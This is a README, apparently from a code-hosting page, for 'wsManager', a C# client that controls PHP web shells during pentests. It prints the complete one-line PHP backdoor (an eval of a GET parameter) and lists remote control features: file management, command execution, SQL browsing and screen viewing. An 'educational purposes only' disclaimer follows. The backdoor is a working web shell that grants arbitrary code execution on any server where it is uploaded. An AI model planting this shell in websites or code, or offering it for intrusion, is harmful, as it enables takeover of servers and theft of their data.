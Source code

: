 ## Information

wsManager can be used to quickly execute commands on a server while pentesting a PHP application. 
The client interface is written in C#, which operate using a simple web-based backdoor implemented by user himself.

Once uploaded, the web shell can be accessed by the client at any time. Once successfully connected, the user proceeds to manipulate files and data on the web server.

The server-side code is extremely simple and contains just a single line of code :
```php
<?php @eval($_GET["x"]); ?>
```

Many commands and control features:

  * File manager (upload, download, archiver, etc)
  * Command execution
  * SQL Explorer
  * Screen Viewer (windows only)

## Documentation

Coming soon

## Screenshots

![](https://i.imgur.com/1JfWKsR.png)
![](https://i.imgur.com/ZU4HJmd.png)
![](https://i.imgur.com/3I7Rjdf.png)
![](https://i.imgur.com/zbB5XTs.png)
![](https://i.imgur.com/VeRb4dN.png)
![](https://i.imgur.com/2qn6pYq.png)

## Disclaimer

*I, the creator, am not responsible for any actions, and or damages, caused by this software.
You bear the full responsibility of your actions and acknowledge that this software was created for educational purposes only.
This software's main purpose is NOT to be used maliciously, or on any system that you do not own, or have the right to use.
By using this software, you automatically agree to the above.*

## Changelog

### 09/09/2019
- ScreenViewer Added

## Misc

Todo:
  * .
